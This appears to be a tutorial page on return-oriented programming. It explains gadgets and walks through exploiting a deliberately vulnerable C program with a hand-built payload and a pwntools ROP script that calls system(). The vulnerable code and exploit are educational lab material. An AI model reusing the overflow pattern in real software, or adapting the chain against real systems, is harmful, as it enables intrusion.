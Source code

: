 # Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises *gadgets* in order to build chains and execute arbitrary instruction sequences.

Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the `ret` instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.

# Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a `ret` instruction. To manually find them within a binary, one might use a tool called `ROPgadget` with the following basic syntax:

`ROPgadget --binary [binary name]`

![](Resources/Images/ROP_ropgadget.png)

(This is just a small portion of the output.)

# Exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

void func()
{
	system("echo 'An inconspicuous echo...'");
}

void vuln()
{
	char input[20];
	fgets(input, 0x60, stdin);
}

int main()
{
	char* HarmlessString = "echo pwn";
	vuln();
	func();
	return 0;

}
```

We immediately notice a potential buffer overflow. Since `system` is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string `"/bin/sh"` has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute `system("/bin/sh")`. Well, let's start digging.

Running ROPgadgets on the above binary reveals a way to write to `rdi`!
`0x000000000000126b : pop rdi ; ret`

Consequently, we can just write the address of the `"/bin/sh"` string in the binary, place it on the stack and, when the time comes, `rdi` will be populated with this address. All we will then need to do is return to the PLT entry of `system`, so that the function is invoked with the correct argument!

The addresses we need turn out to be:

`0x555555555040` - PLT entry of `system`
`0x55555555526b` - `pop rdi; ret` gadget
`0x555555556028` - `"/bin/sh"`
`0x5555555551ff` - the address we want to continue execution from once the ROP chain is finished

Knowing that we need exactly 40 character to overflow the return address of `vuln`, we get the following payload.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00`


![](Resources/Images/ROP_manual.png)

Input file:

![](Resources/Images/ROP_manual_input.png)

And... exploit!

![](Resources/Images/ROP_manual_exp.png)

# Exploiting with pwntools
`pwntools` comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.

You will first need to load the ELF executable and specify its base address:
```python
elf = ELF('./rop')
elf.address = 0x555555554000
```

Subsequently, initialise a ROP object:
```python
rop = ROP(elf)
```
## Pwntools ROP commands
Get a dictionary of available gadgets:
```python
rop.gadgets
```

![](Resources/Images/ROP_pwn_gadgets.png)

Insert raw bytes into the chain:
```python
rop.raw(bytes)
```

![](Resources/Images/ROP_pwn_raw.png)

Call functions:
```python
rop.call(symbol, [arguments])
```

![](Resources/Images/ROP_pwn_call.png)

Get chain as bytes:
```python
rop.chain()
```

![](Resources/Images/ROP_pwn_chain_bytes.png)

## The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
```python
#!/usr/bin/python3

from pwn import *

context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000

rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])

prog = process('./rop')

payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)

prog.sendline(payload)
prog.interactive()

```

![](Resources/Images/ROP_pwn_success.png)